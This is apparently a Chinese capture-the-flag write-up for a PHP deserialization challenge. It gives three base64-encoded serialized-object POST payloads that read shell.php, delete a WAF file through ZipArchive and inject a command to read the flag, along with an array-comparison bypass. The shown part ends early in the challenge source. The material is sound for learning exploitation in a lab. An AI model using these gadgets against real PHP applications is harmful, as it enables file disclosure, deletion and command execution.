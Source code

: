 

---

### 梦里花开牡丹亭

#### payload：

```
读取shell.php：
./?a[]=1&b[]=a
POST:
unser=Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NDk6InBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9c2hlbGwiO3M6NzoiY29udGVudCI7czowOiIiO30=

---
删除waf.txt：
./?a[]=1&b[]=a
POST:
unser=Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7Tzo1OiJsb2dpbiI6Mzp7czo0OiJmaWxlIjtOO3M6ODoiZmlsZW5hbWUiO047czo3OiJjb250ZW50IjtOO31zOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo5O30=

---
读取flag：
./?a[]=1&b[]=a
POST:
unser=Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7Tzo1OiJsb2dpbiI6Mzp7czo0OiJmaWxlIjtOO3M6ODoiZmlsZW5hbWUiO047czo3OiJjb250ZW50IjtOO31zOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6Nzoid2FmLnR4dCI7czo3OiJjb250ZW50IjtzOjg6InByIC9mbGFnIjt9

是不是很简单？
```

很文艺的名字，我信了它《简单的PHP反序列化》

#### 思路：

源码：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include('shell.php');
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

```